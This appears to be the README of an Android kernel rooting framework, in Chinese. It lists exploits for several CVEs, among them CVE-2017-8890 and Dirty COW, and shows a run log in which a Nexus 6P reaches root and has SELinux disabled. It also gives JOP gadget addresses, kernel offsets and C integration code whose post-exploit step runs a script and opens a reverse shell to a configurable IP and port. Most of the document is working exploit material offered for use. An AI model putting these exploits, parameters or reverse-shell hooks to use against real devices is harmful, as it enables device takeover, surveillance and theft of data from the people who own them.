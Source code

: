 #+OPTIONS: ^:{}
#+OPTIONS: toc:nil
#+AUTHOR: idhyt

[[https://github.com/idhyt/androotzf][androotzf]] 早期研究 Android Root 时做的提权方案.

开源部分基本能应对市面上 *<8.0* 以下的所有机型，部分适配的参数可参考 [[./root_info.sql#L27][root_parameters]]

*请遵守法律法规, 本项目仅供学习和交流, 请勿用于非法用途!*

** Android Root Zap Framework [100%]

- [X] 通用的序列化root适配参数
- [X] 非常容易集成, 只需要根据漏洞实现任意读写即可
- [X] 通用内核提取patch方案, 任意读写后一个函数全搞定
- [X] 内核保护机制绕过(PXN, SElinux)
- [X] 部分厂商内核保护机制绕过(huawei, samsung, oppo, vivo)

** Exploit(部分)

*1001*: CVE-2017-8890 v1版, 适配Nexus6P

*1002*: CVE-2017-8890 v2版, 适配华为P10

*1003*: CVE-2017-8890 兼容所有64位机型，如Nexus6p, 华为MT7, MT10, P10等

*1004*: CVE-2017-8890 针对32位机型，如Nexus5

*1010*: CVE-2017-9077 同CVE-2017-8890

*1021*: CVE-2015-1805 V1, 适配SM-A700L

*1022*: CVE-2015-1805 V2, 适配更多机型

*1041*: CVE-2015-3636 适配了nexus4等机型

*1051*: CVE-2016-5195 dirtycow漏洞, android 5.0以下机型

将已编译好的二进制push到设备快速验证

#+begin_src shell
angler:/ $ getprop | grep fingerprint
[init.svc.fingerprintd]:[running]
[ro.bootimage.build.fingerprint]:[google/angler/angler:7.1.2/N2G48C/4104010:user/release-keys]
[ro.build.fingerprint]:[google/angler/angler:7.1.2/N2G48C/4104010:user/release-keys]
[ro.vendor.build.fingerprint]:[google/angler/angler:7.1.2/N2G48C/4104010:user/release-keys]
angler:/ $ cat/proc/version
Linux version 3.10.73-g5b0be8f02fe (android-build@wphs1.hot.corp.google.com) (gcc version 4.9.x-google 20140827 (prerelease) (GCC) ) #1 SMP PREEMPT Thu Jun 8 18:03:16 UTC 2017
angler:/ $ getenforce
Enforcing
angler:/ $ ./data/local/tmp/rootz/1001 "n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70..."
[*] start,pid:9361, tid: 9361,uid:2000, gid: 2000
    [1] padding data to fake obj.
    [2]prepare heap spray data.
[?] fix mmap bugs
    [3] trigger exploit.
    [4]test for r/wkernel capacity
[!] jop to patch thread_info.addr_limit
[-] FAILED READ @Oxffffffc001a044e8:-1,errno=14,msg=Bad address
[!] jop to patch thread_info.addr_limit
[+] cat arbitraryread/write succeededOxffffffc001a044e8=0xffffffc00024c2c4
    [5] get root, patch cred & sid
[*] get current thread_info cred offset
[+] thread_info tasks address=Oxffffffc01c7c1830
[*] get current thread_info cred offset
[+] init thread_info tasks address-Oxffffffc00e9a02b0
[+] init task sid=38
    patch security.sid
    osid=0x26,sid=0x26,exec_sid=0x0,create_sid=0x0,keycreate_sid=0x0,sockcreate_sid=0x0
[+] patch security success.
[*] end,pid:9361,tid:9361,uid:0,gid:0
angler:/ #
angler:/ # id
uid=0(root)gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:init:s0
angler:/ #
angler:/ # getenforce
Permissive
angler:/ #
#+end_src

** Build

编译需要保证主机上存在 make 和 ndk-build (版本过高可能存在兼容性问题, 建议小于25以下版本)

#+begin_src shell

  make build RS=CVE-2015-1805/1022

#+end_src

** Integration

*** 标志位

#+begin_example

n=sn&k=[101=kfunc1;102=kfunc2;]&j=[index1=jop1;0x=0x0;index2=jop2;0x0=0x0;]&p[addr=value=len;]

#+end_example


- n: 方案号

- k: *内核函数* 地址以及一些常用的 *偏移量*, 需要提前在 *param.h* 中声明, 包含在 *[]* 中，用 *;* 分割, 结尾必须包含 *;*

- j: jop地址, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;* , 每条jop以 *0x0=0x0* 结尾, 结尾必须包含 *;* , 预留了5条jop

- p: root后patch地址与内存修复, 主要针对selinux和需要修复的寄存器, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;*

- r: 可选参数, 反弹shell和脚本, 需要提前在 *param.h* 中声明, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;*

每个参数标志位由 *&* 分割, 如：

#+begin_example

n=sn&k=[101=kfunc1;102=kfunc2;]&j=[index1=jop1;0x=0x0;index2=jop2;0x0=0x0;]&p[addr=value=len;]&r=[901=ip;902=port;903=install.sh;]

#+end_example

*** 适配参数示例

Nexus 6P 适配参数如下:

#+begin_src shell

  ./rootz "n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]&j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]&p=[0xffffffc00193a1bc=0x0=0x4;]"

#+end_src

n=1001: 方案号1001

#+begin_example

k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]

#+end_example

param.h中定义了

#+begin_src c

  #define k_ptmx_fops "101"
  #define k_ptmx_ioctl_offset "102"
  #define k_init_task "104"
  #define k_task_security_offset "105"

#+end_src

最终解析后会自动赋值. (r字段相同解析方式)

#+begin_example

j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]

#+end_example

以 0x0=0x0 分割，总共2条jop, 解析后对应的jop结构为

#+begin_example

jop1:
{0x180, 0xaaaaaaaa}
{0x158, 0xbbbbbbbb}
{0x2d0, 0xffffffc00024c2c4}
{0x0, 0x0}
jop2:
{0x0, 0xffffffc000afe07c}
{0x28, 0xbbbbbbbb}
{0x48, 0xffffffc0002ef958}
{0x90, 0xdddddddd}
{0x10, 0xffffffc000ce6000}
{0x8, 0xffffffc000318610}
{0x0, 0x0}

#+end_example

p=[0xffffffc00193a1bc=0x0=0x4;]

总共一个patch的地址，地址为0xffffffc00193a1bc(selinux_enforcing), 值为0, 长度4个字节

解析成对应的patch结构为

#+begin_example

p_patch:
{0xffffffc00193a1bc, 0x0, 0x4}
{0x0, 0x0, 0x0}

#+end_example

*** 新增root方案集成

代码部分需要引入参数解析部分内容, 主要为 *rootz_before* 和 *rootz_after* 两个函数, 代码形似

#+begin_src c

  int main(int argc, char *argv[]) {

    if(rootz_before(argc, argv)) {
      log_dump(LOG_ERR, "[-] rootz_before failed!\n");
      return -1;
    }

    // 提权操作
    exploit();

    if(rootz_after()) {
      log_dump(LOG_ERR, "[-] rootz_after failed!\n");
    }

    while(1);

    return 0;
  }

#+end_src

引入的代码内容如下:


#+begin_src c

  /* ------------------ root define begin ------------------- */
  #include "rootz.h"
  #include "log.h"

  /* adp args */
  static int adp_sn;
  static unsigned long adp_init_task;
  static unsigned long adp_task_security_offset;

  static unsigned long adp_ptmx_fops;
  static unsigned long adp_ptmx_ioctl_offset;
  static unsigned long adp_patch_ptmx_ioctl_jop;

  /* run script path */
  static char adp_script_path[0xff] = { 0 };

  /* reverse shell ip&port */
  static char adp_rshell_ip[0x40] = { 0 };
  static char adp_rshell_port[0x10] = { 0 };

  /*
    初始化适配参数
  ,*/
  #include "dict.h"

  extern dict_t *transl_param_dict;

  static int get_adp_ulval(char *name, unsigned long *value) {
    char *var;

    if (!dict_get(transl_param_dict, name, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get %s failed\n", name);
      return 0;
    }
    ,*value = strtoul(var, NULL, 16);
    log_dump(LOG_DEBUG, "%s = 0x%lx\n", name, *value);
    return 1;
  }

  static int get_adp_str(char *name, char *value, int len) {
    char *var;

    if (!dict_get(transl_param_dict, name, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get %s failed\n", name);
      return 0;
    }
    strncpy(value, var, len);
    log_dump(LOG_DEBUG, "%s = %s, %d\n", name, value, strlen(value));
    return 1;
  }

  static int rootz_before(int argc, char *argv[]) {
    // 设置日志路径, 不设置则打印到控制台
    // set_logfile_path("/data/local/tmp/8890.log");
    // 适配参数初始化
    if (parse_args(argc, argv) < 0) {
      log_dump(LOG_ERR, "[-] parse_args failed\n");
      return -1;
    }

    char *var;

    // 0 failed

    /* root before */
    if (!dict_get(transl_param_dict, n_sn, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get n_sn failed\n");
      return -1;
    }
    adp_sn = atoi(var);
    log_dump(LOG_DEBUG, "adp_sn = %d\n", adp_sn);

    if(!get_adp_ulval(k_init_task, &adp_init_task)) return -1;
    if(!get_adp_ulval(k_task_security_offset, &adp_task_security_offset)) return -1;
    if(!get_adp_ulval(k_ptmx_fops, &adp_ptmx_fops)) return -1;
    if(!get_adp_ulval(k_ptmx_ioctl_offset, &adp_ptmx_ioctl_offset)) return -1;
    if(!get_adp_ulval(j_patch_ptmx_ioctl_jop, &adp_patch_ptmx_ioctl_jop)) return -1;

    /* root after */
    get_adp_str(r_script_path, adp_script_path, sizeof(adp_script_path));
    get_adp_str(r_rshell_ip, adp_rshell_ip, sizeof(adp_rshell_ip));
    get_adp_str(r_rshell_port, adp_rshell_port, sizeof(adp_rshell_port));

  #if 0
    printf(" adp_init_task = 0x%lx\n", adp_init_task);
    printf(" adp_task_security_offset = 0x%lx\n", adp_task_security_offset);
    printf(" adp_ptmx_fops = 0x%lx\n", adp_ptmx_fops);
    printf(" adp_ptmx_ioctl_offset = 0x%lx\n", adp_ptmx_ioctl_offset);
    printf(" adp_patch_ptmx_ioctl_jop = 0x%lx\n", adp_patch_ptmx_ioctl_jop);

  #endif


    return 0;
  }

  /*
    提权过后的操作
  ,*/

  static int rootz_after() {
    char *var;

    if(strlen(adp_script_path)) {
      run_shell_commond("/system/bin/sh", adp_script_path);
    }

    if(strlen(adp_rshell_ip) && strlen(adp_rshell_port)) {
      log_dump(LOG_DEBUG, "rshell: ip = %s, port = %s\n", adp_rshell_ip, adp_rshell_port);
      rshell_simple(adp_rshell_ip, adp_rshell_port);
    }

    dict_destory(transl_param_dict);
    free(transl_param_dict);
    return 0;
  }

  /* ------------------ root define end ------------------- */

#+end_src

完整的参数解析流日志：

#+begin_src shell

  [*] /system/bin/sh -c "/data/local/tmp/rootz 'n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]&j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]&p=[0xffffffc00193a1bc=0x0=0x4;]&r=[901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]'"
  args: n=1001
  key = n, value = 1001
  args: k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]
  key = k, value = [101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]
  args: j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]
  key = j, value = [0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]
  jop num = 2
  args: p=[0xffffffc00193a1bc=0x0=0x4;]
  key = p, value = [0xffffffc00193a1bc=0x0=0x4;]
  p_addr = 0xffffffc00193a1bc, p_value = 0x0, p_len = 0x4
  args: r=[901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]
  key = r, value = [901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]

  transl_param_dict: 0x7104a02060
  104 => 0xffffffc001779fe0
  105 => 0x70
  201 => 0xffffffc00074c954
  n => 1001
  901 => 192.168.0.105
  902 => 4000
  903 => /data/local/tmp/install.sh
  101 => 0xffffffc001a044a0
  102 => 0x48

  j_jop:
  jop1:
  {0x180, 0xaaaaaaaa}
  {0x158, 0xbbbbbbbb}
  {0x2d0, 0xffffffc00024c2c4}
  {0x0, 0x0}
  jop2:
  {0x0, 0xffffffc000afe07c}
  {0x28, 0xbbbbbbbb}
  {0x48, 0xffffffc0002ef958}
  {0x90, 0xdddddddd}
  {0x10, 0xffffffc000ce6000}
  {0x8, 0xffffffc000318610}
  {0x0, 0x0}
  jop3:
  {0x0, 0x0}
  jop4:
  {0x0, 0x0}
  jop5:
  {0x0, 0x0}

  p_patch:
  {0xffffffc00193a1bc, 0x0, 0x4}
  {0x0, 0x0, 0x0}
  adp_sn = 1001
  104 = 0xffffffc001779fe0
  105 = 0x70
  101 = 0xffffffc001a044a0
  102 = 0x48
  201 = 0xffffffc00074c954
  903 = /data/local/tmp/install.sh, 26
  901 = 192.168.0.105, 13
  902 = 4000, 4

#+end_src

** References

[[https://idhyt.blogspot.com/2019/01/cve-2017-8890.html][cve-2017-8890]], [[https://idhyt.blogspot.com/2016/10/cve-2016-5195.html][cve-2016-5195]], [[https://idhyt.blogspot.com/2016/03/cve-2015-3636.html][cve-2015-3636]], [[https://idhyt.blogspot.com/2016/07/cve-2015-1805.html][cve-2015-1805]]
